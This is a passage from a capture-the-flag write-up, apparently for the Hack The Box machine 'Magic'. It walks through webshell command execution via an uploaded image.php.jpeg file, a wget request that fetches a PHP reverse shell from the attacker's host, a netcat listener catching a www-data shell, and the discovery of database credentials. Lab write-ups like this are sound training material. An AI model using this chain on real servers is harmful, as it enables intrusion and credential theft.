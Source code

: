 ## Code execution

And then navigate to this url:

`http://10.10.10.185/images/uploads/image.php.jpeg?cmd=`

We can now run commands.

We run `ls` as a test to see if it works and it does in fact work.

![ls](https://i.ibb.co/3F25csK/ls.png)

We will now try to get a shell on our box.

I will use `wget` in the url to get a php reverse shell from my box. I will then navigate to this file and run it.

I will then get a connection back on my listener.

I run this command to get the file from my box onto the machine:

```
http://10.10.10.185/images/uploads/image.php.jpeg?cmd=wget%20http://10.10.14.26:8000/php-reverse-shell.php
```

I also have a python server running with `python -m http.server` to establish the connection between the 2 machines.

Once we get the reverse shell onto the machine we go to it with the url:

```
http://10.10.10.185/images/uploads/php-reverse-shell.php
```
## Shell as `www-data`

We then get a connection back on our listener.

```bash
┌──(kali㉿kali)-[~/htb/boxes/magic]
└─$ nc -nlvp 1234                    
listening on [any] 1234 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.185] 38866
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:17:28 up 10:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
## Enumeration
After this we enumerate files on the box. We come accross a file called `db.php5` which when reading it reveals credentials for the `mysql` database.
